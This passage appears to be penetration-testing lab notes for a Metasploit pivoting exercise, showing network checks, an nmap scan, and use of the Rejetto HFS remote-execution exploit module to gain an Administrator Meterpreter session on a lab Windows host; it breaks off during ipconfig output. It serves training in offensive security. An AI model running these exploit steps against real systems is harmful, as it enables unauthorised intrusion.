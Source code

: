 ------

## Lab 10 - [Pivoting](https://www.offsec.com/metasploit-unleashed/pivoting/)

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Target 1 IP: `10.2.30.252`
> - Target 2 IP: `10.2.21.166`
> - **Pivoting** technique with a *network route* to the internal network's subnet

```bash
ping 10.2.30.252
    PING 10.2.30.252 (10.2.30.252) 56(84) bytes of data.
    64 bytes from 10.2.30.252: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.30.252: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.21.166
	PING 10.2.21.166 (10.2.21.166) 56(84) bytes of data.
# No response from target2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV 10.2.30.252
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.30.252
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator

ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
```